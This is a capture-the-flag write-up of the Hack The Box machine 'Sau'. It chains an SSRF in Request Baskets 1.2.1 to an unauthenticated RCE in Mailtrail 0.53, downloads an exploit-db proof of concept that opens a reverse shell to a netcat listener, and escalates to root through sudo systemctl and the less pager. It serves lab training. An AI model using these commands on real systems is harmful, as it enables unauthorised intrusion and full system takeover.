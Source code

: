 # Sau

Sau is a easy machine on HTB

## Enumeration

First we check the open port via **nmap**.

![nmap](./assets/images/nmap.png)


The ports 22, 80 and 55555 are open.
Let's check the unusual port 55555.

![request_baskets](./assets/images/request_baskets.png)

It's a **Request Basket** service. And at the footer of the page we can see it's version : **1.2.1**

After a little research we find the CVE-2023-27163, request-baskets up to v1.2.1 was discovered to contain a **Server-Side Request Forgery** (SSRF) via the component `/api/baskets/{name}`. This vulnerability allows attackers to access network resources and sensitive information via a crafted API request.

Create a new basket and open it, next setup a **netcat** listener to test if the SSRF work.

![create_basket](./assets/images/create_basket.png)

```bash
nc -lvnp 80
```

Click on the setings button on the Request Baskets service and change the **Forward URL** to your ip and click on apply (specify the port of your netcat listener if not 80)

![settings_basket](./assets/images/settings_basket.png)

Now make a curl request to your baskets to see if the redirection work

```bash
curl http://10.10.11.224:55555/test
```

![curl_result](./assets/images/curl_result.png)

And it works! So we can try to redirect to the port 80 of the machine who is filtered.
Change the Forwad URL to `http://127.0.0.1:80`, enable the option **Proxy Response** and **Expand Forward Path**

![settings_basket2](./assets/images/settings_basket2.png)

Try to access `http://10.10.11.224:55555/test` in your browser

![mailtrail](./assets/images/mailtrail.png)

## Foothold

We see a **Mailtrail** instance and at the footer of the page we can see the version : **0.53**
After some research we found that this version is vulnerable to **Unauthenticated Remote Code Execution**, plus there is a POC on exploit-db. Let's download it.

```bash
curl -s https://www.exploit-db.com/download/51676 > exploit.py
```

Start a netcat listener on the port of your choice and execute the python script.

```bash
python3 exploit.py {Your IP} {The port of your netcat} http://10.10.11.224:55555/{Your basket}
```
![python_cmd](./assets/images/python_cmd.png)

You should have a reverse shell on your netcat listener now.

![netcat_revshell](./assets/images/netcat_revshell.png)

Stabilize it with :

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
# CTRL + Z
stty raw -echo; fg
```
We have a shell as the user puma and we can find the user flag in his home directory

![user_flag](./assets/images/user_flag.png)

## Privilege escalation

Run `sudo -l` to see if our user can execute some comand as root. And we can see that it can execute `/usr/bin/systemctl status trail.service`
This version of systemctl is **systemd 245** which is vulnerable because it use `less`
So after running `/usr/bin/systemctl status trail.service` just write `!sh` and press Enter.

![root](./assets/images/root.png)

And we are root! You can find the flag in **/root/root.txt**

